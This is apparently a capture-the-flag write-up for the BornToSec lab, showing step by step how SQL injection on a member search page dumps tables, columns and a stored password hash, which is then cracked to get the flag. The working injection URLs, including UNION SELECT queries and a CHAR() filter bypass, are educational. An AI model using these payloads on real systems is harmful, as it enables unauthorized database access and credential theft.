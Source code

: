 # SQL Injection on Members page

## Description 
SQL Injection (SQLi) is a web security vulnerability where attackers manipulate SQL queries executed by an application to gain unauthorized access to a database. This can lead to data theft, modification, or even full control of the database server.

## BornToSec
Here on the search member page you have an input which is asking for an ID. If you input an id and submit, you will see in the URL that the id is passed as a parameter. This is a good sign that the application is vulnerable to SQL Injection.

To get all the users we need to give a conditions to the query that will always be true. We can do this by using the OR 1=1 statement. This will return all the users in the database.

```
http://10.11.249.222/index.php?page=member&Submit=Submit&id=5 OR 1=1
```

With this, you will get the list of every users in the table.

Then what we want is to get more informations about the user table and the columns but to do this we first need to discover the name of the table (even if in this case we already know it's users).

```
http://10.11.249.222/index.php?page=member&Submit=Submit&id=5 UNION SELECT NULL, table_name FROM information_schema.tables
```

With this query, we are able to get the name of every tables in the database. We can see that the table users is present.

We would now wanted to get the columns of the users table by using the following query.

```
http://10.11.249.222/index.php?page=member&Submit=Submit&id=5 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'
```

As you see, we are not able to send string in the query so we need to use the CHAR function to send the table name.

u → 117
s → 115
e → 101
r → 114
s → 115

CHAR(117, 115, 101, 114, 115)

Now we can get the columns of the users table.

```
http://10.11.249.222/index.php?page=member&Submit=Submit&id=5 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117, 115, 101, 114, 115)
```

Once we have the columns, we can get the data of the users table. We can see columns like user_id, first_name, last_name, town, country, planet, Commentaire, countersign.

And 2 of them are interesting, Commentaire and countersign. We can get the data of these columns by using the following query.

```
http://10.11.249.222/index.php?page=member&Submit=Submit&id=5 UNION SELECT user_id, commentaire FROM users
```

With this query, we are able to get the Commentaire of the user with the id 5. We can see taht the Commentaire of the user with id=5 is "Decrypt this password -> then lower all the char. Sh256 on it and it's good !".

We now need to get the countersign of the user with the id 5. We can do this by using the following query.
```
http://10.11.249.222/index.php?page=member&Submit=Submit&id=5 UNION SELECT user_id, countersign FROM users
```

Now we can use a md5 decrypter to get the password of the user with the id 5. The password is FortyTwo.
Then we use sha256 on fortytwo and we get the flag.


